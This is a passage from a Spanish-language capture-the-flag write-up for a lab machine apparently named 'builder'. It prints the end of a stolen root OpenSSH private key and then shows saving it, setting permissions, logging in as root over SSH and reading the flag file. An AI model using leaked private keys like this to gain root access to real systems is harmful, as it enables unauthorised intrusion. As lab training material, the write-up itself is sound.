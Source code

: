 ```bash
IFWIEJUzWbCvA4bgK9M2gC5BaNrwz3AgtbHPhWEztYNkjj+LIWRJMTEdU6Oco/30arSr6D
MXRKJCFXkHrI9WBr0KhglzSHIYX0TQAAAAMBAAEAAAGAD+8Qvhx3AVk5ux31+Zjf3ouQT3
7go7VYEb85eEsL11d8Ktz0YJWjAqWP9PNZQqGb1WQUhLvrzTrHMxW8NtgLx3uCE/ROk1ij
rCoaZ/mapDP4t8g8umaQ3Zt3/Lxnp8Ywc2FXzRA6B0Yf0/aZg2KykXQ5m4JVBSHJdJn+9V
sNZ2/Nj4KwsWmXdXTaGDn4GXFOtXSXndPhQaG7zPAYhMeOVznv8VRaV5QqXHLwsd8HZdlw
R1D9kuGLkzuifxDyRKh2uo0b71qn8/P9Z61UY6iydDSlV6iYzYERDMmWZLIzjDPxrSXU7x
6CEj83Hx3gjvDoGwL6htgbfBtLfqdGa4zjPp9L5EJ6cpXLCmA71uwz6StTUJJ179BU0kn6
HsMyE5cGulSqrA2haJCmoMnXqt0ze2BWWE6329Oj/8Yl1sY8vlaPSZUaM+2CNeZt+vMrV/
ERKwy8y7h06PMEfHJLeHyMSkqNgPAy/7s4jUZyss89eioAfUn69zEgJ/MRX69qI4ExAAAA
wQCQb7196/KIWFqy40+Lk03IkSWQ2ztQe6hemSNxTYvfmY5//gfAQSI5m7TJodhpsNQv6p
F4AxQsIH/ty42qLcagyh43Hebut+SpW3ErwtOjbahZoiQu6fubhyoK10ZZWEyRSF5oWkBd
hA4dVhylwS+u906JlEFIcyfzcvuLxA1Jksobw1xx/4jW9Fl+YGatoIVsLj0HndWZspI/UE
g5gC/d+p8HCIIw/y+DNcGjZY7+LyJS30FaEoDWtIcZIDXkcpcAAADBAMYWPakheyHr8ggD
Ap3S6C6It9eIeK9GiR8row8DWwF5PeArC/uDYqE7AZ18qxJjl6yKZdgSOxT4TKHyKO76lU
1eYkNfDcCr1AE1SEDB9X0MwLqaHz0uZsU3/30UcFVhwe8nrDUOjm/TtSiwQexQOIJGS7hm
kf/kItJ6MLqM//+tkgYcOniEtG3oswTQPsTvL3ANSKKbdUKlSFQwTMJfbQeKf/t9FeO4lj
evzavyYcyj1XKmOPMi0l0wVdopfrkOuQAAAMEA7ROUfHAI4Ngpx5Kvq7bBP8mjxCk6eraR
aplTGWuSRhN8TmYx22P/9QS6wK0fwsuOQSYZQ4LNBi9oS/Tm/6Cby3i/s1BB+CxK0dwf5t
QMFbkG/t5z/YUA958Fubc6fuHSBb3D1P8A7HGk4fsxnXd1KqRWC8HMTSDKUP1JhPe2rqVG
P3vbriPPT8CI7s2jf21LZ68tBL9VgHsFYw6xgyAI9k1+sW4s+pq6cMor++ICzT++CCMVmP
iGFOXbo3+1sSg1AAAADHJvb3RAYnVpbGRlcgECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```
Esta clave la almacenamos en un archivo para tener acceso ssh remoto privilegiado le damos permisos.

```bash
chmod 600 file_password_ssh
```
accedemos a la maquina remota con:

```bash
ssh -i root_key root@{target_IP}
```

y obtenemos la bandera con:

```bash
cat root.txt
```
![finall](./imgs-builder/i35.png)
